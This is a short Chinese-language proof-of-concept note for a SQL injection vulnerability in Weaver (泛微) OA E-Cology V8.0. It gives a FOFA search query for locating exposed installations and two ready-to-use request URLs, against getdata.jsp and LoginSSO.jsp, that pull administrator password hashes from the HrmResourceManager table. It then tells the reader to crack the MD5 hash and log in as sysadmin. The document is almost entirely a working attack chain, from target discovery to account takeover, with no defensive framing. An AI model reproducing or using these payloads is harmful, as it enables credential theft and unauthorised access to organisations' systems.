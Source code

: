 # 泛微OA E-Cology V8.0 SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同办公OA"`
## POC
- getdata.jsp:`/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`  
![](./img/E-Cology_sql.png)
- LoginSSO.jsp SQL:`/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManage`  
md5解密后登陆：`sysadmin/md5解密的密码` 